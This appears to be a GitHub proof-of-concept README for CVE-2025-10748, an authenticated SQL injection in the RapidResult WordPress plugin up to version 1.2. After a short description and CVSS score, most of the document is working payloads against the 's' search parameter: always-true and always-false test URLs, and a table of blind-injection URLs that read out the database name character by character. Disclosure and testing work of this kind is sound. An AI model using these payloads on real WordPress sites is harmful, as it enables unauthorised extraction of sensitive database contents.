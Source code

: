 # CVE-2025-10748: RapidResult <= 1.2 - Authenticated (Contributor+) SQL Injection

The RapidResult plugin for WordPress is vulnerable to SQL Injection via the `s` parameter in all versions up to, and including, 1.2. This is due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for authenticated attackers with contributor-level permissions and above to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## CVSS v3.1 Score: 6.5 (Medium)
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

## Setup

1. **Download and Install** the latest version of WordPress.  
2. **Install and Activate** RapidResult plugin (latest version: 1.2):  
   [https://downloads.wordpress.org/plugin/rapidresult.1.2.zip](https://downloads.wordpress.org/plugin/rapidresult.1.2.zip)  
3. Browse to:  
   [http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult](http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult)  

## Demonstration Steps

1. Click **Add New Result** and fill in the information. Name the post `pwned`.  

2. **Inject an always false condition** – this will display **no results**:  
http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR 1=2 OR '1'='1


3. **Inject an always true condition** – this will display **all results**:  
http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR 1=1 OR '1'='1

## Extract Database Name `exampledb` using Blind SQL Injection

- **True conditions** display all results  
- **False conditions** display no results  

| Character | URL |
|-----------|-----|
| e | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),1,1))=101 OR '1'='1` |
| x | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),2,1))=120 OR '1'='1` |
| a | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),3,1))=97 OR '1'='1` |
| m | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),4,1))=109 OR '1'='1` |
| p | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),5,1))=112 OR '1'='1` |
| l | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),6,1))=108 OR '1'='1` |
| e | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),7,1))=101 OR '1'='1` |
| d | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),8,1))=100 OR '1'='1` |
| b | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),9,1))=98 OR '1'='1` |
